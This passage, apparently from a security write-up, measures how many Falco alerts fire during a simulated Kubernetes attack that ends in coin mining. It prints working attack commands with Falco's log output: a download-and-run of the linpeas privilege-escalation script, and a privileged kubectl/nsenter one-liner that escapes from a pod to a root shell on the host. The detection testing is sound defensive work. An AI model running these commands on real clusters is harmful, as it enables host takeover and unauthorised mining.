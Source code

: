 ```
helm repo add stable https://charts.helm.sh/stable
helm repo add falcosecurity https://falcosecurity.github.io/charts
helm repo update
export FALCO_BPF_PROBE=""
helm install falco falcosecurity/falco --set ebpf.enabled=true
```

The attack scenario assumes initial pod access is given to the Red attacker through email and the scenario starts with the shell in the compromised production dashboard pod. We run the list of the commands described in Scenario 1. These commands lead to the coin miner running on the cluster - from the enumeration and info gathering to the spinning of the bitcoinero pod. These commands result in 3 rules triggering overall 16 times. Arguably this should be enough to alert an observant SOC. An even more realistic scenario is the one where Red runs one of the enumeration / privilege escalation scripts. On the example of linpeas.sh[^9]:

```
[Compromised Pod]
dashboard@dashboard-56755cd6c9-6dk6v:/tmp$ curl -LO https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
dashboard@dashboard-56755cd6c9-6dk6v:/tmp$ chmod +x linpeas.sh
dashboard@dashboard-56755cd6c9-6dk6v:/tmp$ ./linpeas.sh
-----
[Falco]
21:18:06.435080411: Warning Grep private keys or passwords activities found (user=<NA>
...
```

Overall, Falco reports 99 events. This is quite noisy from a supposedly stealthy activity. We expect even more noise from Scenario 2, where attacker DarkRed uses even more advanced techniques to re-deploy the same mining pod and to expose the NodePort for future access. Perhaps the most important command in the sequence for Scenario 2 is the one-liner breaking from the pod into the host:

```
[Compromised Pod]
dashboard@dashboard-56755cd6c9-6dk6v:/tmp$ kubectl run r00t1 --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}]}}'
If you don't see a command prompt, try pressing enter.
r00t1 / #
-----
[Falco]
11:46:21.259775504: Warning Docker or kubernetes client executed in container (user=<NA> user_loginuid=-1 k8s.ns=prd k8s.pod=dashboard-56755cd6c9-6dk6v container=b1814c27d1d2 parent=bash cmdline=kubectl run r00t1 --restart=Never -ti --rm --image lol --overrides {"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}]}} image=securekubernetes/example-dashboard:latest) k8s.ns=prd k8s.pod=dashboard-56755cd6c9-6dk6v container=b1814c27d1d2
11:46:21.361024068: Notice Unexpected connection to K8s API Server from container (command=kubectl run r00t1 --restart=Never -ti --rm --image lol --overrides {"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}]}} k8s.ns=prd k8s.pod=dashboard-56755cd6c9-6dk6v container=b1814c27d1d2 image=securekubernetes/example-dashboard:latest connection=10.48.0.8:46520->10.52.0.1:443) k8s.ns=prd k8s.pod=dashboard-56755cd6c9-6dk6v container=b1814c27d1d2
11:46:23.500801258: Notice Privileged container started (user=<NA> user_loginuid=0 command=container:3af88f406740 k8s.ns=prd k8s.pod=r00t1 container=3af88f406740 image=alpine:latest) k8s.ns=prd k8s.pod=r00t1 container=3af88f406740
11:46:23.518207080: Notice A shell was spawned in a container with an attached terminal (user=root user_loginuid=-1 k8s.ns=prd k8s.pod=r00t1 container=3af88f406740 shell=bash parent=<NA> cmdline=bash terminal=34816 container_id=3af88f406740 image=alpine) k8s.ns=prd k8s.pod=r00t1 container=3af88f406740
```

[^1]: https://man7.org/linux/man-pages/man2/dup2.2.html
[^2]: https://hub.docker.com/repository/docker/sshayb/fuber
[^3]: https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py
[^4]: https://sysdig.com/blog/cve-2021-3156-sudo-falco/
[^5]: https://falco.org/docs/rules/supported-fields/
[^6]: https://braiins.com/stratum-v2
[^7]: https://github.com/draios/sysdig/pull/655/commits/209888d7f37c4357b164ca12248a38bac9de2e4b
[^8]: https://www.youtube.com/watch?v=rBqBrYESryY
[^9]: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS